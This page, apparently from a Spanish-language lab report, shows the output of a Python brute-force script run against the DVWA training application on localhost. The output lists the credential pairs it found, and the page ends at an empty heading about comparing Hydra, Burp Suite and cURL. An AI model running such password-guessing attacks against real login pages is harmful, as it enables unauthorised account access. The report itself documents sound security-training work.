 \documentclass[letterpaper,12pt]{article}
\let\origsubsection\subsection
\renewcommand{\subsection}{\FloatBarrier\origsubsection}
\begin{document}
\subsection{Obtención de al menos 2 pares (python)}
\begin{verbatim}
camilo@camilo-Aspire-A315-56:/tmp$ python3 brute_force_script.py
==========================================================================
SCRIPT DE FUERZA BRUTA - DVWA
==========================================================================

==========================================================================
EJECUCIÓN DEL ATAQUE DE FUERZA BRUTA
==========================================================================
=> Ingrese la URL base de DVWA (ej. http://localhost:8889): http://localhost:8889
=> Ingrese su cookie PHPSESSID: knd082p12k28do4ttsn47hfd35
=> Ingrese el nivel de seguridad (low/medium/high) [low]: low

[INFO] Listas cargadas: 5 usuarios, 5 contraseñas.
[INFO] Iniciando ataque de fuerza bruta...
[INFO] Usuarios: 5, Contraseñas: 5
[INFO] Total de combinaciones a probar: 25
[INFO] URL objetivo: http://localhost:8889/vulnerabilities/brute/
[INFO] Delay entre intentos: 0.2s
------------------------------------------------------------
[SUCCESS] [OK] Credenciales válidas encontradas: admin:password
[SUCCESS] [OK] Credenciales válidas encontradas: pablo:letmein
[SUCCESS] [OK] Credenciales válidas encontradas: smithy:password
[0025/0025] Probando smithy:123456...
------------------------------------------------------------

==========================================================================
RESULTADOS DEL ATAQUE
==========================================================================
[SUCCESS] Se encontraron 3 combinaciones válidas:
    1. Usuario: 'admin' | Contraseña: 'password'
    2. Usuario: 'pablo' | Contraseña: 'letmein'
    3. Usuario: 'smithy' | Contraseña: 'password'

[INFO] Ataque completado.
\end{verbatim}

\subsection{Comparación de rendimiento con Hydra, Burpsuite, y cURL (python)}
\end{document}
